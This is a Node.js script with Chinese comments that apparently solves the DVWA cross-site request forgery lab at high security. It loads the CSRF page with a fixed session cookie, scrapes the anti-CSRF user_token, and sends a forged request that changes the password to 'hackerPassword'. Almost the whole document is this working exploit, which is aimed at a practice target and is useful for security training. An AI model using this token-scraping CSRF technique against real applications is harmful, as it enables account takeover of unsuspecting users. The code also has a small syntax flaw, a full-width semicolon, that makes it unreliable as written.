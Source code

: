 ```javascript
const cheerio = require('cheerio')
const request = require('request');
var $;
var tokenThis;

var options = {
    url: 'http://9710fc76520cf9b2ff5ea67e0af9e0df.n1.vsgo.cloud:7147/web/vulnerabilities/csrf/',
    method: "GET",
    headers: {
        "Content-Type": "text/html;charset=utf-8",
        Referer: "http://9710fc76520cf9b2ff5ea67e0af9e0df.n2.vsgo.cloud",
        Cookie: "security=high; PHPSESSID=f3klut5ds454k782h5ea0prol5"
    }
};

function callback(error, response, body) {
    if (!error && response.statusCode == 200) {
        console.log("Success") // 请求成功的处理逻辑
        // 获取html对象
        $ = cheerio.load(JSON.stringify(body))
        // 获取token
        tokenThis = $('input[name="user_token"]').attr('value');
        console.log(body) // 请求成功的处理逻辑
    } else {
        console.log("Error") // 请求失败的处理逻辑
        console.log(error) // 请求失败的处理逻辑
    }
}

// 设置第二次请求的参数
function setOpt() {
    var options2 = {
        url: 'http://9710fc76520cf9b2ff5ea67e0af9e0df.n1.vsgo.cloud:7147/web/vulnerabilities/csrf/?password_new=hackerPassword&password_conf=hackerPassword&Change=Change&user_token=' +
            tokenThis,
        method: "GET",
        headers: {
            "Content-Type": "text/html;charset=utf-8",
            Referer: "http://9710fc76520cf9b2ff5ea67e0af9e0df.n2.vsgo.cloud",
            Cookie: "security=high; PHPSESSID=f3klut5ds454k782h5ea0prol5"
        }
    }
    return options2
};

// Node.js是异步的，我们这里需要同步执行所以用到了Promise和then
fn = ()=>{return new Promise(
        (resovle, reject) => {
            var res = resovle;
            request(options, (error, response, body) => {
                callback(error, response, body);
                res()；
            });
        }
    )
}
// 同步
fn().then(
    () => {
        request(setOpt(), callback);
    }
)
```